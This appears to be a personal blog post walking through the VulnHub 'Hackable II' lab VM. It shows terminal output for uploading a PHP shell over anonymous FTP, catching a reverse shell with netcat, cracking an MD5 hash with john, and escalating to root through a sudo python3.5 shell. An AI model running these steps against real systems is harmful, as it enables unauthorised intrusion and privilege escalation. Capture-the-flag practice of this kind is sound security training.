 ```yaml
---
layout: post
title:  "Updates 24 June 2021"
date:   2021-06-24 21:00:00 +1000
category: hacking
---
```


## Away
I was away for a few days with just an old laptop setup with Kali as the OS. It didn't have enough grunt to run any VMs, so it was THM only. Since there wasn't much new I went and did a few older CTFs that I hadn't done before: 

1. Pickle Rick. I tried to watch one episode of Rick and Morty once and was like meh and turned it off; why is this fandom so annoying? Anyway, nothing really new to report from this. 
2. Biohazard. This was an older Resident Evil themed CTF and it was *super* CTF. But it was okay, just a bit annoying to do with a barely functional touchpad and no mouse.
3. I'd already done Juicy Details but it was just reading logs and answering questions, no big deal.
4. Volatility. This was actually interesting. However Volaltility is no longer in the Kali repo and installing it is a pain is the ass, and the room doesn't tell you how to do it. May do some more in this field. It's a bit like the Autopsy thing; maybe it's just because it's novel but I found it interesting.

Then I got home and tried to do [HackathonCTF: 2](https://www.vulnhub.com/entry/hackathonctf-2,714/) from VulnHub but the stupid thing wouldn't get an IP address either as bridged or NAT. Deleted.

Next, I tried [https://www.vulnhub.com/entry/hackable-ii,711/](https://www.vulnhub.com/entry/hackathonctf-2,714/). It took like 10 minutes.

## Ports
HTTP, SSH and FTP. Let's begin with FTP.

## FTP
We have anonymous login with upload, and the directory contains a HTML file. HMMMMMMM WONDER WHAT THAT MEANS?

{% highlight shell %}
──(root💀kali)-[/opt/vulnhub/hackable]
└─# ftp 192.168.1.63 
Connected to 192.168.1.63.
220 ProFTPD Server (ProFTPD Default Installation) [192.168.1.63]
Name (192.168.1.63:root): anonymous
331 Anonymous login ok, send your complete email address as your password
Password:
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -lash
200 PORT command successful
150 Opening ASCII mode data connection for file list
drwxr-xrwx   2 33       33           4.0k Nov 26  2020 .
drwxr-xrwx   2 33       33           4.0k Nov 26  2020 ..
-rw-r--r--   1 0        0             109 Nov 26  2020 CALL.html
226 Transfer complete
ftp> get CALL.html
local: CALL.html remote: CALL.html
200 PORT command successful
150 Opening BINARY mode data connection for CALL.html (109 bytes)
226 Transfer complete
109 bytes received in 0.00 secs (44.4077 kB/s)
ftp> put test.txt
local: test.txt remote: test.txt
200 PORT command successful
150 Opening BINARY mode data connection for test.txt
226 Transfer complete
5 bytes sent in 0.00 secs (68.7720 kB/s)
ftp> put shell.php
local: shell.php remote: shell.php
200 PORT command successful
150 Opening BINARY mode data connection for shell.php
226 Transfer complete
5495 bytes sent in 0.00 secs (134.3703 MB/s)
{% endhighlight %}

And where did our shell go?

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/hackable]
└─# cat CALL.html           
<html>
<head>
        <title>onion</title>
</head>
<body>
        <h1>GET READY TO RECEIVE A CALL</h1>
</body>
</html>
                                                                                                                                                                    
┌──(root💀kali)-[/opt/vulnhub/hackable]
└─# python3 /opt/dirsearch/dirsearch.py -u http://192.168.1.63               
                                                                         
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10848
Error Log: /opt/dirsearch/logs/errors-21-06-24_07-35-13.log
Target: http://192.168.1.63/                                                                                                                                        
Output File: /opt/dirsearch/reports/192.168.1.63/_21-06-24_07-35-13.txt
[07:35:13] Starting: 
# 403s removed
[07:35:22] 301 -  312B  - /files  ->  http://192.168.1.63/files/                           [07:35:22] 200 -    1KB - /files/         
[07:35:23] 200 -   11KB - /index.html                                                     [07:35:27] 403 -  277B  - /server-status/                                                 [07:35:27] 403 -  277B  - /server-status

Task Completed                                 
{% endhighlight %}

Start a listener and go to http://192.168.1.63/files/shell.php:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/hackable]
└─# nc -nvlp 1234       
listening on [any] 1234 ...
connect to [192.168.1.210] from (UNKNOWN) [192.168.1.63] 49574
Linux ubuntu 4.4.0-194-generic #226-Ubuntu SMP Wed Oct 21 10:19:36 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 08:37:20 up 5 min,  0 users,  load average: 0.14, 0.09, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ sudo -l
sudo: no tty present and no askpass program specified
$ which python
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@ubuntu:/$
{% endhighlight %}

## Root
{% highlight shell %}
www-data@ubuntu:/home$ ls -lash
ls -lash
total 16K
4.0K drwxr-xr-x  3 root  root  4.0K Nov 26  2020 .
4.0K drwxr-xr-x 23 root  root  4.0K Nov 26  2020 ..
4.0K -rw-r--r--  1 root  root    43 Nov 26  2020 important.txt
4.0K drwxr-xr-x  4 shrek shrek 4.0K Jun 15 13:34 shrek
www-data@ubuntu:/home$ cat im
cat important.txt 
run the script to see the data

/.runme.sh
{% endhighlight %}

Run a random script in a CTF without checking the contents? Erm, no thanks.

{% highlight shell %}
www-data@ubuntu:/$ cat .runme.sh
cat .runme.sh
#!/bin/bash
echo 'the secret key'
sleep 2
echo 'is'
sleep 2
echo 'trolled'
sleep 2
echo 'restarting computer in 3 seconds...'

# guff removed

shrek:cf4c2232354952690368f1b3dfdfb24d'
{% endhighlight %}

Uh huh.

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/hackable]
└─# john hash -w=/usr/share/wordlists/rockyou.txt  --format=Raw-MD5 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
onion            (?)
1g 0:00:00:00 DONE (2021-06-24 07:39) 50.00g/s 3302Kp/s 3302Kc/s 3302KC/s panteraroz..jorie
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
{% endhighlight %}

Now what?

{% highlight shell %}
www-data@ubuntu:/$ su shrek
su shrek
Password: onion

shrek@ubuntu:/$ sudo -l
sudo -l
Matching Defaults entries for shrek on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shrek may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/python3.5
shrek@ubuntu:/$ sudo -u root /usr/bin/python3.5 -c 'import os;os.system("/bin/bash")'
<t /usr/bin/python3.5 -c 'import os;os.system("/bin/bash")'                  
root@ubuntu:/# id;hostname;date
id;hostname;date
uid=0(root) gid=0(root) groups=0(root)
ubuntu
Thu Jun 24 08:39:36 -03 2021
root@ubuntu:/#
{% endhighlight %}

Almost took longer to write this than to do it.
